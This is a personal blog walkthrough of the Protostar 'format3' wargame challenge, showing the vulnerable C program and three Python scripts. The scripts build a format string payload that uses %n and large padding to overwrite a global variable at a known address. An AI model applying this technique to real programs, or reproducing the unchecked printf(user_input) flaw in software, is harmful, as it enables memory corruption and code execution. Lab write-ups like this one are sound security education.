 ```yaml
---
layout: post
title: "Writing Large Values to Specific Targets: protostar format3"
date: 2019-9-10
---
```

The challenge is not much different from the last, the only difference here is that the value we will write to the target is much larger.
{% highlight c%}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Once again, let's find the address of the target.
![format3-1](/assets/format3-1.png)
Unsurprisingly, this is at 0x80496f4. So we at least have that out of the way. 

The next thing we should do is try changing its value.
![format3-2](/assets/format3-2.png)
Ok, so there is works the same way as before. But now we need to make the value equal 0x01025544.
![format3-3](/assets/format3-3.png)
As one can see, it looks like we can't get the value of target to equal something as big as it needs to be. After a certain amount, the value just turns to 0. 

How then do we deal with this?

The link below basically does what I am trying to do, so it can show us the way.
https://null-byte.wonderhowto.com/how-to/exploit-development-write-specific-values-memory-with-format-string-exploitation-0182112/

Writing scripts is useful. We should begin writing an exploit script, because we are going to to be dealing with a lot of numbers.
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
This is just doing what we were typing previously. 

The target is put in first then 11 bytes along the stack, we are at the spot we are dumbing our data.
![format3-4](/assets/format3-4.png)
Same result as before, at least this proves our program is doing as we should.

Now we need to find out how much the value junk is going to be. I think a good way to start this, since this is roughly the amount we are increasing our target by, would be with the value we want, 0x01025544.

This will be switched out of hex for the format specifier. I am going to use python to convert hex to decimal. I will also subtract our value by 0x4b, the number the target is equal to when we run this without our junk value.
![format3-5](/assets/format3-5.png)
This is what we will try using as my format specifier. 
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%16930041x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
Note that running this will take more time than any of the exploits up to this point. Have patience. Maybe go get some tea while it's running.

Running this, it doesn't quite become our value, it is one below. 
![format3-6](/assets/format3-6.png)
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%16930042x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
We increase the format specifier by 1.

And wait a whole 2 minutes.
![format3-7](/assets/format3-7.png)
Well, we did it. As for why subtracting 4b gave us a number off by one, I should have realized that likely since we put one into the number initially there, 4b is the amount stored plus one, input by our "%x", which has an implied 1.
The base number is likely 4a.

This challenge, I personally found difficult, but fun. It's good when you have to do a bit of digging, playing with a debugger and reading information. 


![aesthetic1](/assets/aesthetic1.jpg)
Anyways, time for some rest.